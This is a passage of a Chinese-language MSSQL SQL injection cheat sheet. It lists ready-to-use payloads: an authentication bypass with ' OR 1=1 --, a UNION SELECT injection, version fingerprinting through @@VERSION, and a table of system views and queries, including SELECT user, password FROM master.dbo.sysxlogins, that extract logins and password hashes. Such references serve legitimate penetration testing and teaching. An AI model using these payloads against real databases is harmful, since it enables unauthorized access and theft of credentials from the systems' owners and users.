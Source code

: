 示例：

```
SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';
SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3/*';

```

### 测试版本：

```
@@VERSION

```

示例：

如果MSSQL的版本是2008

```
SELECT * FROM Users WHERE id = '1' AND @@VERSION LIKE '%2008%';

```

附：输出结果包含Windows操作系统的版本。

### 数据库凭据

<table style="box-sizing: border-box; border-collapse: separate; border-spacing: 0px; background-color: rgb(255, 255, 255); border-top: 1px solid rgb(224, 224, 224); border-left: 1px solid rgb(224, 224, 224); font-family: Helvetica, Arial, &quot;Hiragino Sans GB&quot;, sans-serif; letter-spacing: normal; orphans: 2; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial;"><tbody style="box-sizing: border-box;"><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">数据库表</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">master..syslogins, master..sysprocesses</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">列名</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">name, loginame</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">当前用户</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">user, system_user, suser_sname(), is_srvrolemember('sysadmin')</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">数据库凭据</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">SELECT user, password FROM master.dbo.sysxlogins</td></tr></tbody></table>

示例：

#### 返回当前用户：

```
SELECT loginame FROM master..sysprocesses WHERE spid=@@SPID;

```
